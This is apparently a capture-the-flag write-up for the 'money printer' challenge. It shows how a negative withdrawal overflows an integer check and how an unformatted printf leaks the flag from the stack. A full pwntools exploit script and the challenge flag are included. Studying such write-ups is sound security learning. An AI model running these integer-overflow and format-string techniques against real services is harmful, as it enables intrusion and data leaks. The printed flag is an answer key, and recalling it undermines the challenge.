

# money printer

## Problem

<details>

<summary>Description</summary>

The first step to getting rich is printing money

Connect via: `nc money.sdc.tf 1337`

</details>

## Solution

We're given a binary and the only function that is in our interest is the main function, let's decompiled and analyse it&#x20;

<figure><figcaption><p>1st decompiled main segment</p></figcaption></figure>

In the snippet above, we see that the flag is being into a buffer variable within the stack

<figure><figcaption><p>2nd decompiled main segment</p></figcaption></figure>

In this snippet, the program takes an integer input and as long as our input is under 100 and under the value of `money`. Basically this is an ATM-like machine where you take money and it records the current money you have and the money you have taken so far. Initially we're supplied a money amount of 100, but since the check only limits us to provide an input under 100, we can supply a negative value to overflow the Integer.

<figure><figcaption><p>3rd decompiled main segment</p></figcaption></figure>

Here, on line 57 we noticed the program calls `printf` with our desire input without any format specifier. We can exploit this to read from the stack to leak the flag. However, code will only ran if the money we had taken is over 1000 while the money we had is only 100. This is where our Integer overflow will come to play, since `taken_money` is set to 0, we can provide a negative value for the Integer to overflow and set its value to the maximum and thus more than 1000 and satisfy the condition.

Next we need to leak the stack find the offset where our flag is located. Below I have supply the format string vuln to leak the various addresses/values off  the stack. We can also do some fuzzing script with the same script I use below with range starting from 1 to how far we wish to. In the leaked stack anything that starts with `\x7f` or has long series of `\xf` in them is possibly a address. However on the 10th index we see somewhat a hex value representing a string.&#x20;

<figure><figcaption><p>leaking stack values</p></figcaption></figure>

We can try to `unhex` it and it is the start of the flag in reverse order, this is because the program in run in little endian. And we can continue this for the the next value, until we found that the flag is located in the 10th element until the 15th element in the stack.

<figure><figcaption><p>unhexed 10th element</p></figcaption></figure>


```python
#!user/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './money-printer'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'warn'

# =========================================================
#                         EXPLOITS
# =========================================================

flag = ""

for i in range(10, 16):
    try:
        # io = process(exe)
        io = remote('money.sdc.tf', 1337)
        # overwriting dollar variable
        io.sendlineafter(b'how many of them do you want?', b'-1')
        # format string vuln
        io.sendlineafter(b'to the audience?', f'%{i}$p'.encode())
        io.recvuntil(b'\n')
        leak = io.recvline()
        if not b'nil' in leak:
            print(f'stack at {i} :' + str(leak))
            try:
                hexform = unhex(leak.split()[3][2:].decode())
                flag += hexform.decode()[::-1]
                print('flag appended')
            except BaseException:
                pass
        io.close()
    except EOFError or UnicodeDecodeError:
        pass

print(f'{flag=}')
```


## Flag

> _**sdctf{d4mn\_y0u\_f0unD\_4\_Cr4zY\_4M0uN7\_0f\_M0n3y}**_
